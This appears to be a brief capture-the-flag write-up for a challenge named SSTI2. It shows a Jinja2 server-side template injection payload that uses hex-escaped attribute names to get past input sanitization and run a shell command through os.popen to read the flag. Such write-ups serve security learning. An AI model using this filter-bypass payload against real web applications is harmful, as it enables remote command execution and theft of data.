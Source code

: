 # SSTI2

## identifying the vulnerability

we are welcomed by a form that ask for input just like in SSTI challenge but the hint says that the input is being sanitized

if we try to input the same as before we get an error

![image](../../../Assets/12-1.png)

so we need to clean the input first using this website as reference https://onsecurity.io/article/server-side-template-injection-with-jinja2/

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

![image](../../../Assets/12-2.png)

and we get the flag